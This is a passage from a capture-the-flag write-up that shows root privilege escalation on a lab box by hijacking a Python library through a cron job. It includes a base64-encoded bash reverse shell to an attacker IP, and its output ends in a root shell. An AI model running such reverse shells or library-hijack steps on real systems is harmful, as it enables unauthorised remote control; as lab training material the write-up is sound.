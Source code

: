 Test it by executing it with roy

```
roy@space1nvaders:/opt/.sherlock$ python3 run.py 
Traceback (most recent call last):
  File "/opt/.sherlock/run.py", line 1, in <module>
    from logging import getLogger, basicConfig, INFO
ImportError: cannot import name 'getLogger' from 'logging' (/opt/.sherlock/logging.py)
```

Albeit there are some errors because its not finding the functions to import from the library, lets find out if it works

```
roy@space1nvaders:/opt/.sherlock$ cat /tmp/test.txt 
roy
```


## Getting root

Then after a brief, when the cron task its triggered, the content of test.txt should change to root

```
roy@space1nvaders:/opt/.sherlock$ cat /tmp/test.txt 
root
```

Great it works, then set up your  compatible reverse shell of choice inside the rogue library and get root

```
import os
os.system("echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE5Ljg0Lzc3NyAwPiYx|base64 -d |bash'")
```

Save and wait for the shell

```
└─$ nc -nvlp 777
listening on [any] 777 ...
connect to [172.19.0.10] from (UNKNOWN) [172.19.0.123] 50436
bash: no se puede establecer el grupo de proceso de terminal (2522): Función ioctl no apropiada para el dispositivo
bash: no hay control de trabajos en este shell
 _____________________________________
/ You will be the victim of a bizarre \
\ joke.                               /
 -------------------------------------
        \   ^__^
         \  (xx)\_______
            (__)\       )\/\
             U  ||----w |
                ||     ||
root@space1nvaders:~# 
root@space1nvaders:~# id
id
uid=0(root) gid=0(root) grupos=0(root)
```

Found root flag at /root/root.txt







